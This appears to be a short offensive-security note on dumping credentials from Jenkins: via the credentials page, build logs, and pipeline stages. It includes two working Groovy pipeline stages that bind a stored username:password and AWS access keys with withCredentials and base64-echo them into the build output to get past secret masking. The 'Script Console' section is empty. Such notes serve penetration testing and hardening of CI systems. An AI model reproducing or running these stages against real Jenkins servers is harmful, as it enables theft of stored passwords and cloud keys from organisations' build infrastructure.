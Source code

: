 # Credentials Dumping

## Credentials in Text fields in Credentials List
- We can find the list of credentials name and id at http://host:ip/credentials/
- While this sounds very hypothetical, it is very much real to find credentials in text and name section.
- Possible reason for rewriting credentials in credentials description makes it easier to remember purpose, or for making debugging easy.

## Dumping credentials from logs

- Build logs are generated from the build output.
- In certain cases depending on how the pipeline is created, credentials can get logged in the build output
<img src="buildlog-password1.png">

## Credentials Dumping from pipeline

- We can store various kinds of credentials in Jenkins ( username:password, AWS credential, secret file, secret text, Github credentials, certificate )
- The withCredentials() function can pass the credential id for the required secret and that credential will be available as an environment variable.
- If there are some global credentials or credentials for the current project scope we can dump them. 
- It is important to know the name of the parameter, and if you have guessed correctly we can get the parameter id from here ( http://host:ip/credentials/ )
- Credentials Bindings ( https://www.jenkins.io/doc/pipeline/steps/credentials-binding/ )

- Dumping Username:Password
``` Groovy
stage('Credential Dumping') {
            steps {
                 withCredentials(
                    [usernameColonPassword(credentialsId: '3b258e73-5e16-4338-883e-7a24927aefe1', variable: 'USERPASS')]
                ) {
                    sh '''
                        echo "$USERPASS" | base64
                    '''
                }
            }
        }
```
- Dumping AWS Keys ( References : https://stackoverflow.com/questions/53859575/jenkinsfile-access-aws-credentials )
```
        stage('Credential Dumping') {
            steps {
                 withCredentials([[$class: 'AmazonWebServicesCredentialsBinding',credentialsId: "8ada641e-429c-4547-9921-a1581dbf86ef",accessKeyVariable: 'AWS_ACCESS_KEY_ID',secretKeyVariable: 'AWS_SECRET_ACCESS_KEY'
]]) {
                    sh '''
                        echo "$AWS_ACCESS_KEY_ID" | base64
                    '''
                }
            }
        }
```        

## Credentials Dumping from Script Console

## References
- https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
